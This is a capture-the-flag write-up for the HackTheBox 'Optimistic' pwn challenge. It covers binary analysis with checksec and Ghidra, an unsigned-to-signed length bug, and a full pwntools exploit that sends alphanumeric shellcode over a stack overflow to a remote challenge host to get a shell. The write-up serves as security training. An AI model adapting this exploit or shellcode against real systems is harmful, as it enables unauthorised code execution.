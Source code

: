 ### Optimistic : HTB Challenges : Pwn

```
Refrences Used : PinkDraconian Video about this topic : https://www.youtube.com/watch?v=MVeRz2ZdSdk 
```
Here lets first try to analyze the security features and architecture of the binary.

```bash
$ checksec optimistic
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

```bash
$ file optimistic
optimistic: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=24f4b065a2eab20657772e85de2af83b2f6fe8b1, for GNU/Linux 3.2.0, not stripped
```
Now lets analyze the binary in Ghidra and as this binary is not striped we can see function names and symbols loading it into Ghidra we see there are two made functions here :

![Ghidra Main Function](./Images/main.png)

![Ghidra Initialize Function](./Images/intialize.png)

and in the initialize function we have an alarm function which alarms us after 30 seconds and stops binary but for making our payload we can try patching this function to get the alarm after 255 seconds to give us a lot of time to work with.

By analyzing the main function in Ghidra we can see that its giving us a Stack address when we press y . and we can see that we are getting the Base Pointer address AND ALSO FURTHER analyzing the binary we see that there is unsigned integer value initialized which is then casted into an integer and compared to the bytes and due to how unsigned and signed integers work we get an integer buffer overflow if we replace that unsigned integer value as -1 which is not in the scope of an unsigned integer and goes to the max value in the unsigned integer which then when casted into integers would convert back to -1 as 255 bytes which is the most for an unsigned integer does not exist in signed integers causing this issue and allowing us to basically conduct or do a stack overflow here.


```python
from pwn import *

def main():
    context(os='linux', arch='amd64')
    # io = process('./optimistic_patched')
    io = remote('139.59.169.46', 30872)
    # First Step is to ennumerate
    padding = 104
    stack_offset = -96   
    # get stack address

    io.sendlineafter(': ', 'y')
    stack_address = io.recvline().decode().strip().split()[-1][2:]
    stack_address = bytes.fromhex(stack_address).rjust(8, b'\x00')
    stack_address = u64(stack_address, endian='big') # To make it easier to work with it with addition to the address and so on
    stack_address += stack_offset
    log.success(f'Gottem: {p64(stack_address)}' )

    # Stack Address calculation :
    # We leaked a stack address but we wanna know its location in relation to the Buffer where we can overflow how many bytes is its difference
    # We would have to jump back 96 bytes to get back to stack as char local_68 in main function is 96 and we gotta jump back to behind that and start of stack

    # Step 2 : Do Buffer Overflow
    io.sendlineafter('Email: ', 'ab')
    io.sendlineafter('Age: ', 'ab')
    io.sendlineafter('Length of name: ', '-1')
    # Alpha Numeric Characters are only allowed in this shellcode
    shellcode = b"XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V"
    padding = b'a'* (padding - len(shellcode))
    payload = shellcode + padding + p64(stack_address)   
    io.sendlineafter('Name: ', payload)
    io.interactive()

main()
```
